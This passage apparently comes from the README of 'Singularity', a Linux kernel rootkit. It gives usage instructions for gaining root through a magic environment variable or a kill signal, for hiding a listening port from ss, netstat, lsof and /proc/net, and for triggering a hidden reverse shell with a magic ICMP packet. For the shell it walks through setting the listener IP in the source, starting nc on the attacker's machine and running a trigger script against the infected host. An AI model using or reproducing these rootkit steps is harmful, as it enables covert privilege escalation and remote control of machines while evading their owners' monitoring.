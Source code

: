 To become root, you can use the magic word, `MAGIC=mtz bash`, to spawn a bash with root.

<p align="center">
<img src="https://i.imgur.com/jCoi0LV.png">
</p align="center">

And you can use `kill -59 PID` too for become root.

### Hiding port

You can open a listening port 8081 and that port will be hidden for `ss`. `netstat`, `lsof` and `/proc/net/*` as well.

<p align="center">
<img src="https://i.imgur.com/WUuLu1q.png">
</p align="center">

### Reverse Shell via ICMP Trigger

Singularity includes a hidden reverse shell activated by a magic ICMP packet sent from the attacker's machine.

1. Configure Target for Reverse Shell
Before compiling, you MUST configure the IP and port where the reverse shell will connect back.

Edit the file `modules/icmp.c` and modify the following lines with your Listener's IP:

```
// modules/icmp.c
#define YOUR_SRV_IP "127.0.0.1" // <--- CHANGE THIS to your Listener IP
// ...
```
2. On attacking machine, set up a listener using `nc` or smth like that on the configured port.

3. Send the Magic Trigger using the `scripts/singularity_icmp_trigger.py` to send the ICMP packet with the magic sequence (1337) to the infected machine.

```
# Usage: sudo ./scripts/singularity_icmp_trigger.py <TARGET_IP>
sudo python3 singularity_icmp_trigger.py 192.168.1.100
```

The rootkit will capture the ICMP packet, trigger the spawn_revshell work, and attempt to connect to the configured `YOUR_SRV_IP:SRV_PORT`. The spawned shell process will be automatically hidden.

<p align="center">
<img src="https://i.imgur.com/4bmbmwY.png">
</p align=center">

> **Tested kernels: (**6.8.0-79-generic** and **6.12** only), other kernel versions may not compile or crash, precisely because it was designed for modern 6x kernels. This is a risk you can take, so use it in a VM. You can also modify the code to work on any kernel version you like.**  

## All credits
